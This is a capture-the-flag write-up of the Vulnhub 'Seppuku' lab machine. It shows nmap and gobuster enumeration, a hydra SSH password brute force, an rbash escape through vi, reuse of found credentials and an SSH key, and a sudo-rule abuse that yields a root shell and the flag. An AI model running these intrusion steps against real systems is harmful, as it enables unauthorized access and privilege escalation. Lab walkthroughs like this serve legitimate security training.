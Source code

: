 ```yaml
---
title: Vulnhub - Seppuku Writeup
description: My writeup on seppuku box.
categories:
 - vulnhub
tags: vulnhub
---
```


Hi all, let's pwn this box.

You can find the machine there > [Seppuku](https://www.vulnhub.com/entry/seppuku-1,484/){:target="_blank"}

Let's start as always with a nmap scan.

```bash
$ ip=192.168.1.29
$ nmap -sC -sV -p- -oN nmap.txt $ip
Starting Nmap 7.80 ( https://nmap.org ) at 2020-05-24 13:33 EEST
Nmap scan report for seppuku.zte.com.cn (192.168.1.29)
Host is up (0.00078s latency).
Not shown: 65527 closed ports
PORT     STATE SERVICE     VERSION
21/tcp   open  ftp         vsftpd 3.0.3
22/tcp   open  ssh         OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 cd:55:a8:e4:0f:28:bc:b2:a6:7d:41:76:bb:9f:71:f4 (RSA)
|   256 16:fa:29:e4:e0:8a:2e:7d:37:d2:6f:42:b2:dc:e9:22 (ECDSA)
|_  256 bb:74:e8:97:fa:30:8d:da:f9:5c:99:f0:d9:24:8a:d5 (ED25519)
80/tcp   open  http        nginx 1.14.2
| http-auth: 
| HTTP/1.1 401 Unauthorized\x0D
|_  Basic realm=Restricted Content
|_http-server-header: nginx/1.14.2
|_http-title: 401 Authorization Required
139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn Samba smbd 4.9.5-Debian (workgroup: WORKGROUP)
7080/tcp open  ssl/http    LiteSpeed httpd
|_http-server-header: LiteSpeed
|_http-title:  404 Not Found
| ssl-cert: Subject: commonName=seppuku/organizationName=LiteSpeedCommunity/stateOrProvinceName=NJ/countryName=US
| Not valid before: 2020-05-13T06:51:35
|_Not valid after:  2022-08-11T06:51:35
|_ssl-date: 2020-05-24T10:33:58+00:00; +1s from scanner time.
| tls-alpn: 
|   h2
|   spdy/3
|   spdy/2
|_  http/1.1
7601/tcp open  http        Apache httpd 2.4.38 ((Debian))
|_http-server-header: Apache/2.4.38 (Debian)
|_http-title: Seppuku
8088/tcp open  http        LiteSpeed httpd
|_http-server-header: LiteSpeed
|_http-title: Seppuku
MAC Address: 00:0C:29:DF:5C:E5 (VMware)
Service Info: Host: SEPPUKU; OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

Let's not waste more time, i did lot of enumeration on every port and i found a wordlist under port `7601`, let's run `gobuster`.

```bash
$ gobuster dir -q -u http://$ip:7601/ -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -x php,txt,html -o gobuster1.txt
/index.html (Status: 200)
/b (Status: 301)
/a (Status: 301)
/c (Status: 301)
/t (Status: 301)
/r (Status: 301)
/d (Status: 301)
/f (Status: 301)
/e (Status: 301)
/h (Status: 301)
/w (Status: 301)
/q (Status: 301)
/database (Status: 301)
/production (Status: 301)
/keys (Status: 301)
/secret (Status: 301)
/stg (Status: 301)
```

Directory `/w` has a wordlist in `http://$ip:7601/w/password.lst`, let's download it.

After some tries, i tried to `ssh` brute force with user `seppuku` & i got in! 

```bash
$ hydra -l seppuku -P password.lst $ip ssh
[DATA] attacking ssh://192.168.1.29:22/
[22][ssh] host: 192.168.1.29   login: seppuku   password: eeyoree
```

Bingo! Let's login.

```bash
$ ssh seppuku@$ip
seppuku@192.168.1.29's password: 
seppuku@seppuku:~$ cd ..
-rbash: cd: restricted
```

Oh we're into `rbash`!

```bash
seppuku@seppuku:~$ printenv SHELL
/bin/rbash
```

We can easily bypass this using `vi`

```bash
seppuku@seppuku:~$ vi
:set shell=/bin/bash
:shell
seppuku@seppuku:~$ cd ..
seppuku@seppuku:/home$ 
```

Perfect, now we can see into `seppuku` directory a password. We can try it for `samurai` user.

```bash
seppuku@seppuku:~$ cat .passwd
12345685213456!@!@A
seppuku@seppuku:~$ ls -la /home
total 20
drwxr-xr-x  5 root    root    4096 May 13 04:50 .
drwxr-xr-x 18 root    root    4096 May 13 00:25 ..
drwxr-xr-x  3 samurai samurai 4096 May 13 10:44 samurai
drwxr-xr-x  3 seppuku seppuku 4096 May 13 10:44 seppuku
drwxr-xr-x  5 tanto   tanto   4096 May 13 10:53 tanto
seppuku@seppuku:~$ su - samurai
Password: 
samurai@seppuku:~$ 
```

We're in, if we run now `sudo -l` we can see this.

```bash
samurai@seppuku:~$ sudo -l
Matching Defaults entries for samurai on seppuku:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User samurai may run the following commands on seppuku:
    (ALL) NOPASSWD: /../../../../../../home/tanto/.cgi_bin/bin /tmp/*
```

But this file doesn't exist, only `tanto` can create this file, after some enumeration i found `tanto's` ssh private key.

Note : Everytime u login as another user u have to do the `vi` trick to bypass `rbash`.

```bash
samurai@seppuku:/var/www/html/keys$ ssh -i private tanto@localhost
tanto@seppuku:~$ 
```

Perfect, let's create now this file & add our payload in.

```bash
tanto@seppuku:~$ mkdir .cgi_bin
tanto@seppuku:~$ cd .cgi_bin/
tanto@seppuku:~/.cgi_bin$ touch bin
tanto@seppuku:~/.cgi_bin$ chmod 777 bin
tanto@seppuku:~/.cgi_bin$ nano bin 
tanto@seppuku:~/.cgi_bin$ cat bin
#!/bin/bash

bash
tanto@seppuku:~/.cgi_bin$ 
```

Let's go back to `samurai` user & execute it.

```bash
samurai@seppuku:/var/www/html/keys$ sudo /../../../../../../home/tanto/.cgi_bin/bin /tmp/*
root@seppuku:/var/www/html/keys# 
```

Let's read the flag now.

```bash
root@seppuku:/var/www/html/keys# cat /root/root.txt
{SunCSR_Seppuku_2020_X}
```

See you!
